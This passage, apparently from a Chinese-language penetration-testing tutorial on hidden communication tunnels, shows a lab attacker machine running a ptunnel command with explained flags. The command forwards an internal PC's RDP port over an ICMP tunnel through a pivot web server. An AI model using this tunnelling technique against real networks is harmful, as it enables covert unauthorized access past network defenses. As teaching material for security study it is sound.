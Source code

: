 ![](./img/隐藏通信隧道基础知识/21.png)

三：在Hacker攻击者（192.168.217.129）中输入以下命令：

```
ptunnel -p 192.168.217.135(跳板ip) -lp 1080 -da 192.168.217.132(内网PC) -dp 3389 -x saul
```

![](./img/隐藏通信隧道基础知识/22.png)

```
-x：指定ICMP隧道连接的密码
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP地址
-dp：指定要转发目标机器的TCP端口
-p：指定ICMP隧道另一段的机器IP地址
```

上面的命令的意思就是：在访问攻击者的机器Hacker（192.168.217.129）的1080端口时，会吧内网PC（192.168.217.132）的3389端口数据封装在ICMP隧道里，以Web服务器（192.168.217.135）为ICMP隧道跳板进行传输。最后，在本地访问Hacker（192.168.217.129）的1080端口，可以发现已经可以和内网PC（192.168.217.132）的3389进行连接了：
